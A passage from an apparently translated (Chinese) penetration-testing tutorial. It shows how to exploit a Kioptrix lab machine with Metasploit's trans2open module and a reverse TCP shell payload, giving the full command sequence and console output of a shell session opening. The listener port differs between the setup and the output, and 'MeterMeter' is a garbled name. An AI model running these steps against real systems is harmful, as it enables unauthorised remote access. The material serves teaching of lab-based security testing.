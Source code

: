 此信息可用于 Metasploit 中的所有漏洞利用。在时间允许的情况下，花时间熟悉一些最常用的漏洞利用从长远来看是非常有益的，因为您将能够避免尝试在生产系统上不起作用的漏洞利用。

现在我们需要设置一些可用的选项：

```
msf > set RHOST 192.168.75.14 

```

`RHOST`是远程主机，需要设置为我们的 Kioptrix 机器 IP 地址。

```
msf > show payloads 

```

![Using Metasploit to exploit Kioptrix](graphics/7744_04_14.jpg)

`show payloads`命令提供可用于此特定攻击的所有兼容有效载荷的列表。我们将在本例中使用 `reverse_tcp`。这种有效载荷类型很小，通常很有效，尽管它没有 MeterMeter 提供的全部选项。

```
> set payload linux/x86/shell/reverse_tcp 

```

我们还必须设置 `LHOST`和 `LPORT`。

```
> set LHOST 192.168.75.12 

```

这是将在其上设置侦听器的本地主机。

```
> set LPORT 2222 

```

这是我们要监听的端口。

现在，这已经不存在了，我们可以继续开发：

```
> exploit 

```

如果一切按计划进行，您将收到以下确认和一个开放会话，该会话与本章前面提供给我们的手动编译的漏洞连接非常相似。

```
msf exploit(trans2open) > exploit 

```

```
[*] Started reverse handler on 192.168.75.12:2221
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.75.14
[*] Command shell session 2 opened (192.168.75.12:2221 -> 192.168.75.14:32802) at 2011-11-16 23:22:06 -0500

```
